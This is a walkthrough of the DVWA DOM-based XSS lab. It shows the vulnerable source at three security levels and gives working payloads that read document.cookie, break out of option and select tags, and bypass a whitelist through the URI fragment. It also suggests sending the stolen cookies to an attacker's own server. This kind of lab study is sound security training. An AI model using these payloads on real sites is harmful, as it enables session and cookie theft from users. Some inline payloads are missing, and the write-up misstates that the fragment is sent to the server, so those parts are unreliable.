



# DVWA - XSS (DOM)

## Description

**Vulnerability:** XSS (DOM)    
**Impact:** Leveraging XSS Scripting to get our desired data.

---

## LOW Security Level
This source code doesn't have any checks:
```php
<?php

# No protections, anything goes

?>
```
And the choosing language functionality take the value and add them to the query param `default` on the URL: `/vulnerabilities/xss_d/?default=<value>`, the web app with take the `<value>` render them to the first `option` element:


You can try type a Javascript code to get cookie of the browser: `?default=<script>alert(document.cookie)</script>`



From this you can make a request to our own server and we can retreive the cookie by triggering users to enter that URL.

## MEDIUM Security Level
This source code have 1 check:
```php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
```
It don't allow `<script` so I try use another method of XSS which is the `` however it doesn't work


The HTML code is:
```html
<option value="%3Cimg%20src=x%20onerror=alert(1)%3E"></option>
```
For somehow, the `img` tag isn't rendered in the `option` element it just appears in the `value` attribute. I examine the HTML and Javascript, I found this Javascript used to render the value of `default` query param to HTML.
```html
<select name="default">
    <script>
        if (document.location.href.indexOf("default=") >= 0) {
            var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
            document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
            document.write("<option value='' disabled='disabled'>----</option>");
        }
            
        document.write("<option value='English'>English</option>");
        document.write("<option value='French'>French</option>");
        document.write("<option value='Spanish'>Spanish</option>");
        document.write("<option value='German'>German</option>");
    </script>
</select>
```
Therefore, from here I trigger a payload to close the `option` tag first then close `select` tag then render my `img`: `?default=</option></select>`



## HIGH Security Level
The check is now stricter:
```php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
```
So now there is not trick to do to exploit however when I read one of the resources: [https://owasp.org/www-community/attacks/DOM_Based_XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS) I found the URI Fragments attack which we can use this payload to run Javascript:
```
#default=<script>alert(document.cookie)</script>
```
This payload will bypass the server protection since the `default` value will now be sent to the server by browser.

Result:



## Resources
- https://owasp.org/www-community/attacks/xss/
- https://owasp.org/www-community/attacks/DOM_Based_XSS
- https://www.acunetix.com/blog/articles/dom-xss-explained/
